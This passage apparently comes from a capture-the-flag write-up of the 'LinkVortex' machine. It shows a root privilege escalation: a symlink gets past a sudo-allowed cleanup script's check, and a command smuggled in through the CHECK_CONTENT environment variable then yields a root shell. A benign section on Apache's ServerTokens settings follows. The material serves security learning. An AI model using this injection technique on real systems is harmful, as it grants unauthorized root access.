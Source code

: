 ```

bob@linkvortex:~$ ln -s a.png
bob@linkvortex:~$ ls -l a.png
lrwxrwxrwx 1 bob bob 5 Apr  9 16:37 a.png -> a.png

```

It doesn’t matter what it points to, but it has to be a symlink to get past the check at:

```

if /usr/bin/sudo /usr/bin/test -L $LINK;then

```

Now running with a command as `CHECK_CONTENT` prints the result of that command (and then fails to print the content):

```

bob@linkvortex:~$ CHECK_CONTENT=id sudo bash /opt/ghost/clean_symlink.sh a.png
Link found [ a.png ] , moving it to quarantine
uid=0(root) gid=0(root) groups=0(root)
Content:
/usr/bin/cat: /var/quarantined/a.png: Too many levels of symbolic links

```

I can just run `bash` to get a shell:

```

bob@linkvortex:~$ ln -s a.png
bob@linkvortex:~$ CHECK_CONTENT=bash sudo bash /opt/ghost/clean_symlink.sh a.png
Link found [ a.png ] , moving it to quarantine
root@linkvortex:/home/bob#

```

## Beyond Root - Apache Config

### Overview

I noticed during enumeration that Apache was behaving differently that I typically see it in two places. First, the HTTP `Server` header shows only “Server: Apache”. For Ubuntu 22.04, I would expect “Server: Apache/2.4.52 (Ubuntu)”.

Then the 404 page also lacked information about the server, showing only:

![image-20250408171813308](/img/image-20250408171813308.png)

### Apache Config

There are two Apache directives at play here, `ServerSignature` and `ServerTokens`. These are typically configured in something like a `/etc/apache2/conf-available/security.conf` file (which gets symlinked into `conf-enabled` if enabled), but the author of LinkVortex chose to add them directly to the site configuration in `/etc/apache2/sites-enabled/vhost.conf`:
